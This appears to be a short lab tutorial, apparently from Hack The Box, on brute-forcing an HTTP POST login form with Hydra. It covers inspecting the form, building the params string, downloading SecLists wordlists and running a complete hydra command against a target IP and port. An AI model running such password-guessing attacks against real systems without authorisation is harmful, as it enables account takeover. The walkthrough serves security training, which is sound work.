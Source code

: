 
## Steps to Use Hydra

### 1. Inspect the Login Form
Use browser developer tools to analyze the form’s structure:
- **Method**: `POST`
- **Fields**: `username`, `password`
- **Endpoint**: `/`

#### Example HTML
```html
<form method="POST">
    <h2>Login</h2>
    <label for="username">Username:</label>
    <input type="text" id="username" name="username">
    <label for="password">Password:</label>
    <input type="password" id="password" name="password">
    <input type="submit" value="Login">
</form>
```

#### Analyze the Request
Submit sample credentials and check the request data using developer tools or a proxy tool like Burp Suite:
- **Path**: `/`
- **Fields**: `username`, `password`
- **Error Message**: "Invalid credentials"

### 2. Construct the Params String
Based on the analysis, construct the `params` string for Hydra:
```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials
```
- **Path**: `/`
- **Fields**: `username`, `password`
- **Failure Condition**: `F=Invalid credentials`

---

### 3. Run Hydra

#### Download Wordlists
```bash
DJMC@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
DJMC@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

#### Execute the Command
```bash
DJMC@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
